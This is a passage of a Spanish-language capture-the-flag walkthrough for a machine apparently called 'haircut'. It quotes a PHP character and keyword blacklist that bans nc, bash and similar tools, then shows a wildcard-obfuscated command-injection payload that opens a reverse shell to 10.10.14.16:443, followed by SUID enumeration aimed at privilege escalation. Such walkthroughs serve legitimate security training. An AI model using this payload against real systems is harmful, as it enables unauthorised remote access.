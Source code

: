 Nos encontramos dentro de la máquina víctima, pero antes de todo, vamos a realizar un [Tratamiento de la tty](/tratamiento-tty) para trabajar más cómodos.

Ahora, si revisamos el archivo `exposed.php` ubicado en la ruta `/var/www/html/`, vemos que no podemos utilizar los siguientes caracteres y palabras dentro del input:

```php
$disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
```

A este punto, ya debemos estar pensando en otra forma de acceder a la máquina con la ejecución de comandos y sin necesidad de subir una reverse shell:

```bash
http://$(/bin/n? -e /bin/bas? 10.10.14.16 443)
```

Si lo ejecutamos y nos ponemos en escucha por el puerto 443, se nos entabla una reverse shell y podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, por lo que enumeramos un poco el sistema.

```bash
www-data@haircut:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/$ sudo -l
[sudo] password for www-data: 
www-data@haircut:/$ cd /
www-data@haircut:/$ find \-perm -4000 2>/dev/null
./bin/ntfs-3g
./bin/ping6
./bin/fusermount
./bin/su
./bin/mount
./bin/ping
./bin/umount
./usr/bin/sudo
./usr/bin/pkexec
./usr/bin/newuidmap
./usr/bin/newgrp
./usr/bin/newgidmap
./usr/bin/gpasswd
./usr/bin/at
./usr/bin/passwd
./usr/bin/screen-4.5.0
./usr/bin/chsh
./usr/bin/chfn
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
www-data@haircut:/$
```
